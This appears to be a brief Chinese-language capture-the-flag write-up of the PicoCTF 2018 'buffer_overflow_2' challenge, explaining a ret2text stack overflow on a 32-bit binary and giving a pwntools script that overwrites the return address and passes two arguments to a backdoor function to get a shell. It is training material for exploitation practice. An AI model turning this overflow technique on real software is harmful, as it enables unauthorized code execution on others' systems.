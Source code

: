 ```yaml
---
title: 'PicoCTF_2018_buffer_overflow_2'
date: 2024-01-06 13:00:00 +0800
categories: [ret2text]
tags: [ctf,pwn]
---
```

![image-20240106203324958](../assets/img/old_imgs/image-20240106203324958.png)

![image-20240106203332714](../assets/img/old_imgs/image-20240106203332714.png)

- `ret2text`
- `32`位程序函数参数劫持

1. `vuln`函数中存在溢出
2. 存在后门函数
3. 构造`payload`跳转到后门函数得到`shell`

这里要注意,跳转到后门函数的同时要传入两个参数`a1 & a2`,缺失参数会导致`eof`错误

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_2')
padding = b'A'*(0x6c+4)
payload = padding+p32(0x080485CB)+p32(0)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
io.sendlineafter(b'Please enter your string:',payload)
io.interactive()
```

